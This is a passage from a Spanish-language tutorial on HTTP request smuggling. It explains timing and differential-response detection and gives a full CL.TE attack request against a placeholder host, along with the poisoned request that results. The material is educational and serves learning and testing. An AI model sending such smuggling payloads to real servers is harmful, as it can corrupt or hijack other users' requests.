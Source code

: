 Dado que el servidor front-end usa el header `Transfer-Encoding`, solo reenviará una parte de esta solicitud, omitiendo el `X`. El servidor back-end usa el header `Content-Length`, espera más contenido en el cuerpo del mensaje y espera a que llegue el contenido restante. Esto causará un retraso de tiempo observable.

### mediante respuestas diferenciales (Basadas en codigo de respuestas)

Esto implica enviar dos solicitudes a la aplicación en rápida sucesión:

-   Una solicitud de "ataque" diseñada para interferir con el procesamiento de la siguiente solicitud.
-   Una solicitud "normal".

Por ejemplo, suponga que la solicitud normal se ve así:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Esta solicitud normalmente recibe una respuesta HTTP con el código de estado 200, que contiene algunos resultados de búsqueda.

#### CL.TE

Para confirmar una vulnerabilidad CL.TE, enviaría una solicitud de ataque como esta:

```HTTP
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e (\r\n)
q=smuggling&x= (\r\n)
0
(\r\n)
GET /404 HTTP/1.1
Foo: x
```

Si el ataque tiene éxito, el servidor de back-end trata las dos últimas líneas de esta solicitud como pertenecientes a la siguiente solicitud que se recibe. Esto hará que la siguiente solicitud "normal" se vea así:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
